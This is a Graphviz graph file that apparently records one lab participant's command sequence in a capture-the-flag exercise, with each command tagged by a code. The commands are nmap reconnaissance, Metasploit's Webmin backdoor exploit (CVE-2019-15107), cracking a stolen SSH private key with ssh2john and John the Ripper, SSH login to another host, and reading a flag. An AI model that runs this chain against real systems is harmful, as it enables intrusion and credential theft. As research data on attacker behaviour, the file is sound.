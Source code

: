 // creating graph for user: 73
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 M0 "]
	1 [label="msf U"]
	2 [label="metasploit U"]
	3 [label="msfconsole M2 "]
	4 [label="search webmin 1.920 M3 "]
	5 [label="search cve:2019-15107 A3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	8 [label="set TARGETURI=172.18.1.5:10000 A6 "]
	9 [label="set TARGETURI 172.18.1.5:10000 A6 "]
	10 [label="run M8 "]
	11 [label="show options M5 "]
	12 [label="set TARGETURI / A6 "]
	13 [label="set RHOST 172.18.1.5 A6 "]
	14 [label="run M8 "]
	15 [label="set LHOST 0.0.0.0 M6 "]
	16 [label="run M8 "]
	17 [label="show options M5 "]
	18 [label="search edb:47230 A3 "]
	19 [label="search webmin M3 "]
	20 [label="banner U"]
	21 [label="info U"]
	22 [label="connect U"]
	23 [label="run M8 "]
	24 [label="show options M5 "]
	25 [label="set LHOST 10.1.135.83 M6 "]
	26 [label="run M8 "]
	27 [label="ls A10 "]
	28 [label="pwd U"]
	29 [label="ls A10 "]
	30 [label="ls A10 "]
	31 [label="cat ssh2john.py A1 A9 A11 A12 A14 A16 A17 "]
	32 [label="python ssh2john.py M13 "]
	33 [label="connect U"]
	34 [label="touch r.txt U"]
	35 [label="cp /tmp.r.txt rsa_d U"]
	36 [label="ls A10 "]
	37 [label="python ssh2john.py rsa_d M13 "]
	38 [label="python ssh2john.py rsa_d > john_rsa M13 "]
	39 [label="john john_rsa A14 "]
	40 [label="john rsa_d A14 "]
	41 [label="john john_rsa A14 "]
	42 [label="python ssh2john.py /tmp.k > rsa2 M13 "]
	43 [label="cat rsa_d A1 A9 A11 A12 A17 "]
	44 [label="john ---h A14 "]
	45 [label="john -h A14 "]
	46 [label="ls A10 "]
	47 [label="ls Documents/m A10 "]
	48 [label="ls Documents/ A10 "]
	49 [label="ls Documents/ -laR A10 "]
	50 [label="ls A10 "]
	51 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	52 [label="john --show A5 A14 "]
	53 [label="ls A10 "]
	54 [label="john rsa_d --show A5 A14 "]
	55 [label="ls A10 "]
	56 [label="ls fasttrack.txt A10 "]
	57 [label="ls -l A10 "]
	58 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt.gz M14 "]
	59 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	60 [label="tar -xvf rockyou.txt.gz U"]
	61 [label="head rockyou.txt A9 A11 A12 A17 "]
	62 [label="john rsa2 --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	63 [label="ls A10 "]
	64 [label="john john_rsa A14 "]
	65 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	66 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	67 [label="john A14 "]
	68 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show M14 "]
	69 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=left M14 "]
	70 [label="john john_rsa --wordlist /usr/share/wordlists/rockyou.txt --show=right M14 "]
	71 [label="john john_rsa --show --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	72 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa M14 "]
	73 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --show M14 "]
	74 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa M14 "]
	75 [label="less rockyou.txt A9 A11 A12 A17 "]
	76 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	77 [label="ls A10 "]
	78 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH M14 "]
	79 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa2 --format=SSH M14 "]
	80 [label="john --wordlist /usr/share/wordlists/rockyou.txt rsa_d --format=SSH M14 "]
	81 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	82 [label="john --show A5 A14 "]
	83 [label="john --show john_rsa A5 A14 "]
	84 [label="python ssh2john.py r.txt > rsa3 M13 "]
	85 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose M14 "]
	86 [label="john A14 "]
	87 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH --verbose M14 "]
	88 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SS M14 "]
	89 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	90 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa --format=SSH M14 "]
	91 [label="less rockyou.txt A9 A11 A12 A17 "]
	92 [label="john --wordlist /usr/share/wordlists/rockyou.txt john_rsa M14 "]
	93 [label="show rsa_ A5 "]
	94 [label="show rsa_d A5 "]
	95 [label="john --show rsa_d A5 A14 "]
	96 [label="python ssh2john.py /tmp/id_rsa hash M13 "]
	97 [label="python ssh2john.py /tmp/id_rsa > hash M13 "]
	98 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	99 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules M14 "]
	100 [label="john --show hash A5 A14 "]
	101 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules M14 "]
	102 [label="john --wordlist=all.lst hash M14 "]
	103 [label="sudo john A14 "]
	104 [label="john --show hash --format=SSH A5 A14 "]
	105 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash --rules M14 "]
	106 [label="john --show hash --format=SSH A5 A14 "]
	107 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	108 [label="john --show hash --format=SSH A5 A14 "]
	109 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	110 [label="ls A10 "]
	111 [label="echo '!hellokitty!!' > wl.txt U"]
	112 [label="john --wordlist wl.txt hash M14 "]
	113 [label="ls A10 "]
	114 [label="john --show hash A5 A14 "]
	115 [label="echo -n '!hellokitty!!' > wl.txt U"]
	116 [label="john --wordlist wl.txt hash M14 "]
	117 [label="john --show hash A5 A14 "]
	118 [label="john --show --format=SSH                             hash A5 A14 "]
	119 [label="cat /tmp/id_rsa M12 "]
	120 [label="python ssh2john.py /tmp/id_rsa M13 "]
	121 [label="ssh-add /tmp/id_rsa A16 "]
	122 [label="ssh-add id_rsa A16 "]
	123 [label="la U"]
	124 [label="ls -la A10 "]
	125 [label="python ssh2john.py id_rsa > hash M13 "]
	126 [label="john --wordlist /usr/share/wordlists/rockyou.txt M14 "]
	127 [label="john --show id_rsa A5 A14 "]
	128 [label="john --show hash A5 A14 "]
	129 [label="john --wordlist /usr/share/wordlists/rockyou.txt hash M14 "]
	130 [label="john --show hash A5 A14 "]
	131 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork 4 hash M14 "]
	132 [label="john --wordlist /usr/share/wordlists/rockyou.txt --fork=4 hash M14 "]
	133 [label="john --wordlist=/usr/share/wordlists/rockyou.txt --fork=4 hash M14 "]
	134 [label="ssh-add id_rsa A16 "]
	135 [label="ssh eve@10.1.17.4 M16 "]
	136 [label="cp id_rsa .ssh/id_rsa A16 "]
	137 [label="ssh eve@10.1.17.4 M16 "]
	138 [label="ls A10 "]
	139 [label="ls -a M10 "]
	140 [label="chown 0044 U"]
	141 [label="chown 0044 id_rsa U"]
	142 [label="ssh-add id_rsa A16 "]
	143 [label="ssh eve@10.1.17.4 M16 "]
	144 [label="ls A10 "]
	145 [label="cd top-secret/ U"]
	146 [label="ls A10 "]
	147 [label="cat flag A1 A9 A11 A12 A17 "]
	148 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	141 -> 142 [constraint=false]
	142 -> 143 [constraint=false]
	143 -> 144 [constraint=false]
	144 -> 145 [constraint=false]
	145 -> 146 [constraint=false]
	146 -> 147 [constraint=false]
	147 -> 148 [constraint=false]
	rankdir=LR
}
